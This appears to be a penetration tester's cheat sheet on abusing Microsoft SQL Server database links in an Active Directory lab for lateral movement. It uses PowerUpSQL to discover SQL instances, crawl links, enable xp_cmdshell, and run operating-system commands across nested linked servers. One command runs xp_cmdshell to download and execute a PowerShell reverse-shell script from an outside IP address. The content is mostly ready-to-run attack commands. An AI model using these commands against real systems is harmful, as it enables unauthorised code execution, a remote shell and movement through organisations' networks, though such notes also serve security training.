 # AD - MSSQL

## MSSQL Server - Data

### Description

* SQL Servers provide very good options for laterla movement as domain users can be mapped to databse roles
* Database Links allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources
* In case of databse Links between SQL Servers => linked SQL Servers - it is possible to execute stored procedures
* Database links work even accros forest/domain trusts - nothing limits it

### Requirement

* SPN and active SQL Server

### Tool

* PowerUpSQL [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

**Discovery (SPN Scanning)**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Import-module .\PowerUpSQL.ps1
</strong><strong>Get-SQLInstanceDomain
</strong>
//Gets all SPNs which start with MSSQL - maybe no SQL Server is running (anymore)
</code></pre>

**Check Accessibility**

```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose
```

**Gather Informatione**

```powershell
Get-SqlInstanceDomain | Get-SQLServerInfor -verbose
```

**Search for database Links**

<pre class="language-powershell"><code class="lang-powershell"><strong>Get-SQLServerLink -Instance hostname_of_mssql_server -verbose
</strong>  On all sqlinstances from above
<strong>❗Get-SQLServerLinkCrawl -Instance hostname_of_mssql_server -verbose
</strong>
-or-

select * from master..sysservers 
//do it in HeidiSQL Portable / Hostname of mssqlserver &#x26; Windows Auth
</code></pre>

**Enumerating DB Links manually**

{% code overflow="wrap" %}
```sql
select * from openquery("nextHost",'select * from master.sysservers')
select * from openquery(""nextHost",'select * from openquery("nexNextHost","select * from master.sysservers")')
```
{% endcode %}

**Executing commands**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'whoami'"
</strong><strong>
</strong>Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'powershell download cradle"

❗Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.48/Invoke-PowerShellTcpEx.ps1)"'''
<strong>
</strong>//this runs accross all links
=> only for eu-sql we get an output
</code></pre>

**Executing Commands**\
****Target server should have xp\_cmdshell or rpcout (disabled by default)

* If rpcout is enalbed, you can enable xp\_cmdshell using\
  EXECUTE('sp\_configure "xp\_cmdshell",1;reconfigure;') AT "link-name"
* Use the -QuertyTarget parameter to run Query on a specific instance (without -QueryTarget the command tries to use xp\_cmdshell on every link of the chain)&#x20;

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql

From the initial SQL Server, OS commands can be executed using nested link queries:
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select
@@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```
{% endcode %}

